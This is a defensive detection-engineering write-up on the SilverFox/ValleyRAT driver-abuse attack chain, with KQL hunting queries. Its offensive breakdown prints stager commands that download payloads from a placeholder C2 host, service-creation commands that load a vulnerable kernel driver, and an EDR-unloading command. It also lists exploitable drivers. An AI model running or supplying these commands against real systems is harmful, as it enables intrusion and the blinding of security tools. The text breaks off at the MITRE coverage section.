






# SilverFox / ValleyRAT — BYOVD Attack Ecosystem
### *From Monolith to Composite — A Full R&D Decomposition*

**Author:** Ala Dabat | [github.com/azdabat](https://github.com/azdabat)  
**Version:** 2026-01  
**Classification:** Tier-3 Novel Tradecraft Research  
**License:** [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/legalcode)  
**Validated:** ADX-Docker · Empire C2 Telemetry · Atomic Red Team  

---

> *"SilverFox does not exploit a zero-day.*  
> *It exploits the trust Windows places in signed binaries.*  
> *The signature is the weapon."*

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Threat Actor Profile — SilverFox / ValleyRAT](#threat-actor-profile--silverfox--valleyrat)
- [The Attack — Offensive Breakdown](#the-attack--offensive-breakdown)
- [Why Monolithic Rules Fail Here](#why-monolithic-rules-fail-here)
- [Decomposition — From Monolith to Composite Pack](#decomposition--from-monolith-to-composite-pack)
- [Atomic Primitives Catalogue](#atomic-primitives-catalogue)
- [Composite 1 — Script Stager Detection](#composite-1--script-stager-detection)
- [Composite 2 — DLL Sideload via Signed Loader](#composite-2--dll-sideload-via-signed-loader)
- [Composite 3 — BYOVD Driver Staging & Service Creation](#composite-3--byovd-driver-staging--service-creation)
- [Composite 4 — Full Kill Chain Correlation (Hardened)](#composite-4--full-kill-chain-correlation-hardened)
- [Cousin Surface Analysis](#cousin-surface-analysis)
- [Threat Hunting Roadmap](#threat-hunting-roadmap)
- [MITRE ATT&CK Coverage](#mitre-attck-coverage)
- [Incident Response Lifecycle](#incident-response-lifecycle)
- [Detection Gaps & Research Roadmap](#detection-gaps--research-roadmap)

---

## Executive Summary

SilverFox and ValleyRAT represent a category of technically sophisticated Chinese-nexus malware
that weaponises legitimate Windows trust mechanisms — specifically the operating system's
implicit trust in digitally signed binaries — to deliver a kernel-level rootkit that blinds
endpoint detection and response tools before any overtly malicious activity occurs.

The attack is not a single event. It is a **staged, multi-session operation** deliberately
designed to defeat time-windowed detection rules by separating stages across hours or days.

This document covers the complete offensive and defensive analysis of the SilverFox/ValleyRAT
BYOVD chain, the decomposition of a prior monolithic detection rule into a composite sensor
ecosystem aligned with the Minimum Truth Detection Framework, and the full IR lifecycle for
responding when any sensor in the ecosystem fires.

---

## Threat Actor Profile — SilverFox / ValleyRAT

### Attribution

SilverFox and ValleyRAT are associated with Chinese-nexus threat activity targeting financial
services, technology, and logistics organisations primarily in the Asia-Pacific region, with
expanding global reach. The campaigns demonstrate characteristics of organised, well-resourced
threat actor operations including:

- Custom malware development and maintenance across multiple versions
- Deliberate use of legitimate software abuse rather than novel exploits
- Patient multi-stage staging designed to evade automated detection
- BYOVD kernel rootkit deployment as standard operational procedure

### Malware Family Summary

| Component | Role | Technique |
|-----------|------|-----------|
| Script Stager | Initial access delivery | T1059 / T1105 |
| Signed Loader | Trust bypass execution | T1574.002 |
| DLL Payload | Core implant / injector | T1574.002 |
| Vulnerable Driver | BYOVD vehicle | T1068 / T1543.003 |
| Kernel Rootkit | EDR blinding / privilege | T1014 / T1562.001 |
| ValleyRAT Core | Persistent C2 / RAT | T1071 / T1573 |

### Why This Family Is Operationally Significant

Most malware families choose one or two evasion techniques. SilverFox/ValleyRAT chains:

1. **Living-off-the-land execution** — legitimate signed binaries as loaders
2. **Signature trust abuse** — the OS verifies the loader is signed and trusts it
3. **BYOVD kernel exploitation** — a known-vulnerable driver is loaded to gain ring-0 access
4. **EDR blinding** — the rootkit kills or blinds the security product before the RAT deploys
5. **Temporal staging** — stages are separated across time to defeat windowed correlation

No single defensive layer defeats all five. This is why composite detection across multiple
telemetry surfaces is required.

---

## The Attack — Offensive Breakdown

### Full Kill Chain

```mermaid
graph TD
    A["Stage 0: Initial Delivery\nPhishing / watering hole\nMalicious installer / document\nT1204.002 / T1189"] --> B

    B["Stage 1: Script Stager\npowershell.exe / mshta.exe / certutil.exe\nDownloads payload bundle\nT1105 / T1059\nFileless variant possible"] --> C

    C["Stage 2: Signed Loader Execution\nLegitimate signed binary in AppData/Temp\nLoads malicious DLL from same writable path\nT1574.002 DLL Sideloading"] --> D

    D["Stage 3: Driver Staging\nVulnerable .sys driver dropped to writable path\nDriver disguised as .dat / .bin / .tmp\nT1027 Obfuscation"] --> E

    E["Stage 4: Kernel Service Registration\nSC.exe / Registry API / PowerShell / COM\nService created pointing to vulnerable driver\nT1543.003"] --> F

    F["Stage 5: BYOVD Exploitation\nKernel driver loaded via DriverLoadEvent\nKernel-level code execution achieved\nT1068 Privilege Escalation"] --> G

    G["Stage 6: EDR Blinding\nfltmc.exe unload of security minifilter\nWinDefend / Sense service stopped\nT1562.001 Impair Defenses"] --> H

    H["Stage 7: ValleyRAT Deployment\nRAT injected into legitimate process\nC2 established with jitter\nT1055 / T1071"] --> I

    I["Stage 8: Post-Exploitation\nCredential access / lateral movement\nData collection / exfiltration\nPersistence via TaskCache or Registry"]

    style A fill:#666,color:#fff
    style B fill:#8B4513,color:#fff
    style C fill:#1F4E79,color:#fff
    style D fill:#1F4E79,color:#fff
    style E fill:#1F4E79,color:#fff
    style F fill:#8B0000,color:#fff
    style G fill:#8B0000,color:#fff
    style H fill:#8B0000,color:#fff
    style I fill:#4B0082,color:#fff
```



### Stage-by-Stage Technical Breakdown

#### Stage 0 — Initial Delivery

SilverFox reaches targets through three primary vectors:

**Malicious installer:** A legitimate-looking software installer (often disguised as a
productivity tool, VPN client, or financial application) bundles the SilverFox loader
alongside the legitimate application. The installer executes both — the legitimate app
installs normally while the loader is placed in AppData or ProgramData.

**Phishing with malicious document:** A document with embedded macro or OLE object that
executes a PowerShell or mshta stager on open. The stager downloads the payload bundle.

**Supply chain compromise:** In some observed campaigns, legitimate software update
mechanisms were abused to deliver the loader bundle through a trusted distribution channel.

#### Stage 1 — Script Stager

The stager is deliberately simple — its only job is to retrieve the payload bundle and
stage it to a writable path. Observed variants use:

```
powershell.exe -EncodedCommand <base64>
  → Invoke-WebRequest to attacker infrastructure
  → Downloads signed_loader.exe + malicious.dll + vulnerable_driver.sys
  → Stages all three to %APPDATA%\<legitimate-looking-folder>\
  → Executes signed_loader.exe

certutil.exe -urlcache -split -f http://<C2>/payload.bin %TEMP%\payload.bin
  → Renames payload.bin to signed_loader.exe
  → Executes via cmd.exe

mshta.exe http://<C2>/stager.hta
  → Fileless variant — downloads and executes entirely in memory
  → No staged files on disk until next stage
```

**Key observation:** The stager often exits cleanly within minutes. By the time an analyst
investigates a low-confidence stager alert, the stager process is long gone. The payload is
staged and waiting. This is deliberate temporal separation — Stage 1 is complete before
any analyst can act on it.

#### Stage 2 — DLL Sideloading via Signed Loader

This is the signature technique of the SilverFox family. The legitimate, signed binary is
placed in the same directory as the malicious DLL. When the signed binary executes, Windows
loads the DLL from the local directory before searching the standard DLL search path.

```
%APPDATA%\MicrosoftEdgeUpdate\
  ├── MicrosoftEdgeUpdate.exe  (SIGNED — legitimate Microsoft binary)
  └── version.dll              (MALICIOUS — not signed, or wrong signer)
```

When `MicrosoftEdgeUpdate.exe` starts, Windows resolves `version.dll` from the current
directory first — the malicious DLL loads into the trusted process context.

**Why this defeats naive detection:**

- The loader process (`MicrosoftEdgeUpdate.exe`) is signed and trusted
- No malicious process is created — the DLL runs inside the trusted process
- No command-line arguments are visible — the DLL execution is internal
- AMSI may not scan DLL code paths depending on configuration

**Observed abused loader binaries:**

| Binary | Publisher | Normal Function |
|--------|-----------|-----------------|
| MicrosoftEdgeUpdate.exe | Microsoft | Edge update handler |
| OneDriveSetup.exe | Microsoft | OneDrive installer |
| vmnat.exe | VMware | NAT network component |
| vmpipe.exe | VMware | VM pipe component |
| teams.exe | Microsoft | Teams client |
| SearchIndexer.exe | Microsoft | Windows search |

#### Stage 3 — BYOVD Driver Staging

With the malicious DLL executing in a trusted process context, it drops the vulnerable
kernel driver to a writable path. The driver is frequently disguised:

```
Actual extension → Disguised as
.sys              → .dat
.sys              → .bin
.sys              → .tmp
.sys              → delivered as .sys but in anomalous path
```

**Known vulnerable drivers used in BYOVD campaigns:**

| Driver | CVE | Capability |
|--------|-----|------------|
| RTCore64.sys | CVE-2019-16098 | Arbitrary read/write kernel memory |
| DBUtil_2_3.sys | CVE-2021-21551 | Full kernel control |
| WinRing0x64.sys | Multiple | Read/write physical memory |
| AsrDrv104.sys | CVE-2020-15368 | Kernel code execution |
| Ene.sys | CVE-2020-12446 | Kernel memory access |

The driver itself is not malicious — it is legitimately signed by a hardware vendor. The
vulnerability within it is the weapon. This is why signature-based detection completely
fails for BYOVD — the driver's signature is valid.

#### Stage 4 — Kernel Service Registration

The driver is loaded by creating a Windows service pointing to it. This is the last stage
before kernel code execution and represents the most observable moment in the chain.

Observed service creation methods (in order of sophistication):

```
Method 1 (Noisy): sc.exe create VulnDrv binPath=C:\Users\Public\vuln.dat type=kernel
Method 2 (Quiet): Registry API — write ImagePath directly to Services key
Method 3 (Quiet): PowerShell New-Service with kernel type
Method 4 (Stealthy): COM API ITaskService / direct SCM API call
```

Advanced operators use Method 2 or 4 specifically because Method 1 creates a visible
`sc.exe` process event that most SOC rules are designed to catch.

#### Stages 5–8 — BYOVD Exploitation Through Post-Exploitation

Once the kernel driver loads, the exploitation of its vulnerability grants ring-0 (kernel)
level code execution. From this position the malware:

1. Terminates or disables the EDR minifilter driver (`fltmc.exe unload WdFilter`)
2. Removes the EDR from kernel callback registration
3. Injects ValleyRAT into a legitimate host process (svchost, explorer, lsass)
4. Establishes encrypted C2 with sleep jitter
5. Begins post-exploitation operations

**At Stage 5 the endpoint is essentially blind.** The EDR that would have caught Stages 6–8
has been disabled. Detection must succeed before Stage 5.

---

## Why Monolithic Rules Fail Here

The original SilverFox detection (v1) was a single query correlating all five stages in
one join chain with tight time windows:

```
SideloadEvents
| join DriverDrops (within 45 minutes)
| join ServiceCreates (within 15 minutes)
→ Output: Single alert if ALL conditions met
```

### Failure Mode 1 — Temporal Staging

```
Day 0, 09:15: Stager executes, payload bundle dropped to AppData
Day 0, 09:16: Signed loader executes, DLL sideloaded (Stage 2)
Day 0, 09:18: Driver staged (Stage 3)

--- Operator verifies environment. 72 hours of silence. ---

Day 3, 02:31: Service created for driver (Stage 4)
Day 3, 02:33: Driver loads (Stage 5)
Day 3, 02:35: EDR killed (Stage 6)

Monolithic rule (24h window):
  Stage 2 → Stage 3 connection: ✅ within 45 minutes
  Stage 3 → Stage 4 connection: ❌ 72 hours gap → join fails → NULL
  Alert: NEVER FIRES
```

### Failure Mode 2 — Service Creation Method Pivot

```
Rule expects: sc.exe creates service
Attacker uses: Registry API write to Services\ImagePath
sc.exe process: ABSENT
Rule join condition: BROKEN
Alert: NEVER FIRES
```

### Failure Mode 3 — Query Timeout at Scale

```
DeviceImageLoadEvents (100k endpoints, 24h)
| join DeviceFileEvents on DeviceId  ← Two massive raw tables joined
→ Query timeout
→ Detection infrastructure silent
```

### Failure Mode 4 — Extension Disguise

```
Rule looks for: FileName endswith ".sys"
Attacker uses: driver.dat (actual .sys disguised as .dat)
File extension match: FAILS
Alert: NEVER FIRES
```

---

## Decomposition — From Monolith to Composite Pack

The monolith is replaced with four independent sensors, each with its own minimum truth
anchor, plus the atomic primitive collector for temporal stitching.



### Why Each Composite Is a Separate Sensor

| Sensor | Telemetry Table | Truth Anchor | Noise Profile | Allowlist Strategy |
|--------|----------------|--------------|---------------|--------------------|
| Script Stager | DeviceProcessEvents + FileEvents | Script + ingress semantics + drop | Medium | Parent process + known-good download hosts |
| DLL Sideload | DeviceImageLoadEvents | Signed loader + unsigned/mismatched module | Medium | Signer trust + system path exclusions |
| BYOVD Chain | DeviceRegistry + DeviceProcess + DeviceEvents | Driver service pointing to writable .sys | Low | Trusted installers + known driver paths |
| Full Chain | All tables | DriverLoadEvent in writable path | Very Low | Almost no suppression needed — very specific |

Merging these would require a cross-table join strategy that either times out at scale or
requires such aggressive filtering that it becomes blind to real attacks.

---

## Atomic Primitives Catalogue

These are the individual observable events that form the building blocks of the attack.
None are alertable in isolation. All are indexed silently by `DeviceId` for temporal stitching.



### KQL Primitive Collector (SilverFox Context)

```kql
// SILVERFOX ATOMIC PRIMITIVE COLLECTOR
// Executed when any composite fires — not an alert, a hunting pivot

let EntityKey_Device = "HOSTNAME";          // Injected from composite
let AnchorTime       = datetime(2026-05-29T02:31:00Z);
let LookbackWindow   = 30d;
let ForwardWindow    = 4h;

let P_Stager =
    DeviceProcessEvents
    | where Timestamp between ((AnchorTime - LookbackWindow) .. (AnchorTime + ForwardWindow))
    | where DeviceName =~ EntityKey_Device
    | where FileName in~ ("powershell.exe","pwsh.exe","mshta.exe","certutil.exe","bitsadmin.exe")
    | where ProcessCommandLine has_any ("DownloadString","DownloadFile","Invoke-WebRequest",
                                         "urlcache","ADODB.Stream","-EncodedCommand")
    | project Timestamp, Layer="Stage1_Stager",
              Event = strcat(FileName, " | ", ProcessCommandLine),
              MITRE = "T1059/T1105";

let P_FileStaging =
    DeviceFileEvents
    | where Timestamp between ((AnchorTime - LookbackWindow) .. (AnchorTime + ForwardWindow))
    | where DeviceName =~ EntityKey_Device
    | where FolderPath matches regex @"(?i)\\(AppData|Temp|ProgramData|Public|Downloads)\\"
    | where FileName matches regex @"\.(exe|dll|sys|dat|bin|tmp|drv)$"
    | project Timestamp, Layer="Stage1_FileStage",
              Event = strcat("Drop: ", FolderPath, "\\", FileName),
              MITRE = "T1105/T1027";

let P_Sideload =
    DeviceImageLoadEvents
    | where Timestamp between ((AnchorTime - LookbackWindow) .. (AnchorTime + ForwardWindow))
    | where DeviceName =~ EntityKey_Device
    | where InitiatingProcessSignatureStatus == "Signed"
    | where FolderPath matches regex @"(?i)\\(AppData|Temp|ProgramData|Public)\\"
    | project Timestamp, Layer="Stage2_Sideload",
              Event = strcat(InitiatingProcessFileName, " loaded ", FileName,
                             " | ModuleSig: ", SignatureStatus),
              MITRE = "T1574.002";

let P_DriverDrop =
    DeviceFileEvents
    | where Timestamp between ((AnchorTime - LookbackWindow) .. (AnchorTime + ForwardWindow))
    | where DeviceName =~ EntityKey_Device
    | where FileName matches regex @"\.(sys|drv|dat|bin|tmp)$"
    | where FolderPath matches regex @"(?i)\\(AppData|Temp|ProgramData|Public|Users)\\"
    | project Timestamp, Layer="Stage3_DriverDrop",
              Event = strcat("DriverDrop: ", FolderPath, "\\", FileName,
                             " by: ", InitiatingProcessFileName),
              MITRE = "T1027/T1543.003";

let P_ServiceCreate =
    DeviceRegistryEvents
    | where Timestamp between ((AnchorTime - LookbackWindow) .. (AnchorTime + ForwardWindow))
    | where DeviceName =~ EntityKey_Device
    | where RegistryKey has @"CurrentControlSet\Services"
    | where RegistryValueName =~ "ImagePath"
    | where RegistryValueData matches regex @"(?i)\\(AppData|Temp|ProgramData|Public)\\"
    | project Timestamp, Layer="Stage4_ServiceReg",
              Event = strcat("ServiceCreate: ", RegistryKey, " → ", RegistryValueData),
              MITRE = "T1543.003";

let P_KernelLoad =
    DeviceEvents
    | where Timestamp between ((AnchorTime - LookbackWindow) .. (AnchorTime + ForwardWindow))
    | where DeviceName =~ EntityKey_Device
    | where ActionType == "DriverLoadEvent"
    | project Timestamp, Layer="Stage5_KernelLoad",
              Event = strcat("DriverLoad: ", FolderPath, "\\", FileName),
              MITRE = "T1068/T1543.003";

let P_EDRBlind =
    DeviceProcessEvents
    | where Timestamp between ((AnchorTime - LookbackWindow) .. (AnchorTime + ForwardWindow))
    | where DeviceName =~ EntityKey_Device
    | where (ProcessCommandLine has "fltmc" and ProcessCommandLine has "unload")
         or ProcessCommandLine has_any ("WinDefend","MsMpEng","Sense","Stop-Service")
    | project Timestamp, Layer="Stage6_EDRBlind",
              Event = strcat("Tamper: ", ProcessCommandLine),
              MITRE = "T1562.001";

union P_Stager, P_FileStaging, P_Sideload, P_DriverDrop, P_ServiceCreate, P_KernelLoad, P_EDRBlind
| order by Timestamp asc
| project Timestamp, Layer, Event, MITRE
```

---

## Composite 1 — Script Stager Detection

### Minimum Truth

A script interpreter or LOLBin executed with ingress semantics (download, retrieve, stage)
AND near-time payload artifacts appeared in user-writable paths from the same or child process.

**Anchoring Strategy: Intent-First (Fileless variant: Substrate-First)**

For the drop-based variant, the ingress primitive in the command line implies capability.
For the fileless variant (no drop), the combination of remote fetch + execution semantics
on a script engine is the substrate itself — there is no visible drop to anchor on.

### Two Detection Branches

```
Branch A (Drop-Based):
  Script/LOLBin + download semantics → artifact staged in writable path
  within 45 minutes, same or child process
  Severity: MEDIUM (staging confirmed, execution not yet confirmed)

Branch B (Fileless):
  Script host + remote fetch + fileless execution semantics (-enc, IEX, FromBase64)
  No drop required — the remote payload executes in memory
  Severity: HIGH (execution confirmed without staging artefact)
```

### Engineering Considerations

**Why PID equality was removed:** The original rule required `DropperPid == ScriptPid` — the
file had to be dropped by the exact script process. In real SilverFox chains, the script
spawns an installer/orchestrator child process which performs the actual staging. Requiring
exact PID equality missed the most common real-world pattern. Solution: `ScriptPid OR
ScriptChildPid` via a separate child process join within a 15-minute window.

**Why the correlation window was extended:** Initial version used 10 minutes. Real SilverFox
installer chains execute a legitimate-looking installer that takes time, then stages the
payload bundle. Observed chains regularly exceeded 10 minutes. Extended to 45 minutes.

**Why account context is soft-gated:** Account UPN matching is useful but not always populated
in all MDE telemetry configurations. Hard-gating on account equality would break detection in
tenants where UPN telemetry is incomplete. Solution: `isempty() or match` — only gate if
both sides are populated.

---

## Composite 2 — DLL Sideload via Signed Loader

### Minimum Truth

A legitimately signed binary loaded a DLL or module from a user-writable path where the
loaded module is unsigned OR has a different signer than the loader OR is in an anomalous path.

**Anchoring Strategy: Substrate-First**

The signed loader executing from a writable path is the substrate. The anomaly in the loaded
module (wrong signer, unsigned, wrong path) is reinforcement. You cannot skip to intent here
because there is no command-line argument to inspect — the sideload happens as a DLL load
event, not a process execution.

### The Trust Confusion Mechanism



### Signer Mismatch Detection Logic

```kql
// The core detection insight:
// A signed loader should load modules with matching or trusted signers
// Signer mismatch = probable sideload

| where LoaderSigned == true  // The loader is trusted
| where (
    not(ModuleSigned)          // Module is unsigned (obvious sideload)
    or Signer != InitiatingProcessSigner  // Signer mismatch (subtle sideload)
    or ModPath has_any (WritablePaths)    // Module from wrong location
)
```

### Hardened vs Original Detection

| Aspect | Original (v1) | Hardened (v2) |
|--------|---------------|---------------|
| Module extensions | .dll only | .dll, .ocx, .cpl, .dat, .bin, .tmp |
| Same folder requirement | Strict `FolderPath == InitiatingProcessFolderPath` | Removed — sideload can target different writable path |
| Signer check | Not present | Signer mismatch added as primary reinforcement |
| Loader location | Only writable paths | Writable paths OR Program Files (SilverFox specific) |

---

## Composite 3 — BYOVD Driver Staging & Service Creation

### Minimum Truth

A service was registered (via registry or process) pointing to a driver-like file
(`*.sys`, `*.dat`, `*.bin`, `*.drv`, `*.tmp`) in a user-writable path.

**Anchoring Strategy: Intent-First**

The service registration pointing to a driver in a writable path is the primitive that
implies kernel-level capability. Legitimate kernel drivers are installed to
`C:\Windows\System32\drivers\` — a service pointing to `%APPDATA%\` is not legitimate
regardless of the file's apparent extension.

### Service Creation Method Coverage

The original v1 rule only caught `sc.exe` and `pnputil.exe`. Advanced operators specifically
avoid these because they create visible process events. The hardened rule covers:

```
Registry/API (strongest anchor, most stealthy):
  HKLM\SYSTEM\CurrentControlSet\Services\<name>\ImagePath = C:\Users\...\vuln.dat
  → DeviceRegistryEvents — no process event, just a registry write

SC.exe (visible, but still used by less sophisticated operators):
  sc.exe create VulnDrv binPath="C:\ProgramData\vuln.sys" type=kernel
  → DeviceProcessEvents

PowerShell (medium sophistication):
  New-Service -Name VulnDrv -BinaryPathName "C:\Users\Public\vuln.dat" -StartupType Automatic
  NtLoadDriver — direct API call from PowerShell
  → DeviceProcessEvents (script block logging)

WMI (less common but observed):
  wmic.exe service create ... (writable path)
  → DeviceProcessEvents

PnP/SetupAPI (driver installation):
  pnputil.exe /add-driver C:\Temp\vuln.inf /install
  → DeviceProcessEvents

Rundll32/SetupAPI:
  rundll32.exe setupapi.dll,InstallHinfSection ... C:\Public\vuln.inf
  → DeviceProcessEvents
```

---

## Composite 4 — Full Kill Chain Correlation (Hardened)

### Minimum Truth

A kernel `DriverLoadEvent` occurred for a driver loaded from a user-writable path, preceded
by a service registration chain including DLL sideloading and driver staging artefacts,
all on the same device within a realistic operational time window.

**Anchoring Strategy: Substrate-First**

The `DriverLoadEvent` from a writable path is the irreducible minimum. When a kernel driver
loads from `%APPDATA%`, `%TEMP%`, or `%PUBLIC%`, that is structurally anomalous — legitimate
kernel drivers do not load from user-writable locations. This single event, without any
other context, is a high-confidence signal.

The chain correlation is reinforcement — it builds confidence and provides the investigation
context, but the `DriverLoadEvent` alone is the truth.

### Time Window Architecture

```
Original v1 (brittle):
  Stage 2 → Stage 3:  45 minutes (too tight for real ops)
  Stage 3 → Stage 4:  15 minutes (too tight for real ops)

Hardened v2 (realistic):
  Stage 2 → Stage 3:  6 hours  (allows real installer behaviour)
  Stage 3 → Stage 4:  2 hours  (allows operator verification pause)
  Stage 4 → Stage 5:  2 hours  (allows service start delay)

Why 30 days for the atomic layer:
  Patient APT actors stage drivers days before activation
  The 30-day atomic index is the only layer that bridges this gap
  No time-windowed composite rule can address multi-day staging
```

### Correlation Chain Explained



---

## Cousin Surface Analysis

The BYOVD attack ecosystem has several cousin surfaces — adjacent techniques that share the
same attacker goal (kernel-level access or EDR blinding) through different mechanisms.



| Cousin | Minimum Truth Anchor | Detection Difficulty | Status |
|--------|---------------------|---------------------|--------|
| Direct BYOVD (no sideload) | Service creation → DriverLoadEvent from writable path | Medium | ✅ Covered by Composite 3/4 |
| Process injection into EDR | Remote thread into EDR process | Medium-High | 🟡 Planned |
| Kernel callback removal | Driver API calls removing security callbacks | High | 🔴 Research |
| Token impersonation service stop | SYSTEM token used to stop security service | Medium | 🟡 Planned |
| fltmc minifilter unload | `fltmc.exe unload <filter>` for known security filter | Low | ✅ Covered by AMSI Pack |

---

## Threat Hunting Roadmap

### Hypothesis-Driven Hunting Playbook



### Proactive Hunt Queries

**Hunt 1 — Driver staging in writable paths (30-day sweep):**

```kql
DeviceFileEvents
| where Timestamp >= ago(30d)
| where FolderPath matches regex @"(?i)\\(AppData|Temp|ProgramData|Public|Users)\\"
| where FileName matches regex @"\.(sys|drv)$"
    or (FileName matches regex @"\.(dat|bin|tmp)$"
        and InitiatingProcessFileName !in~ ("svchost.exe","tiworker.exe","trustedinstaller.exe"))
| summarize
    Count = count(),
    Devices = dcount(DeviceName),
    Files = make_set(FileName, 20),
    Paths = make_set(FolderPath, 20),
    Droppers = make_set(InitiatingProcessFileName, 10)
  by FileName
| where Devices <= 3  // Rare in the estate — targeted indicator
| order by Devices asc
```

**Hunt 2 — Signed binary executing from writable path (baseline deviation):**

```kql
DeviceProcessEvents
| where Timestamp >= ago(7d)
| where ProcessVersionInfoCompanyName != ""  // Has version info (likely signed)
| where FolderPath matches regex @"(?i)\\(AppData|Temp|ProgramData|Public|Downloads)\\"
| where FileName !in~ ("msiexec.exe","setup.exe","install.exe","update.exe")
| summarize Count = count(), Devices = dcount(DeviceName) by FileName, FolderPath
| where Devices <= 5
| order by Devices asc
```

**Hunt 3 — DriverLoadEvent from non-system path:**

```kql
DeviceEvents
| where Timestamp >= ago(30d)
| where ActionType == "DriverLoadEvent"
| where FolderPath !has "system32\\drivers"
    and FolderPath !has "SysWOW64"
    and FolderPath !has "DriverStore"
| project Timestamp, DeviceName, FileName, FolderPath
| order by Timestamp desc
```

---

## MITRE ATT&CK Coverage

```
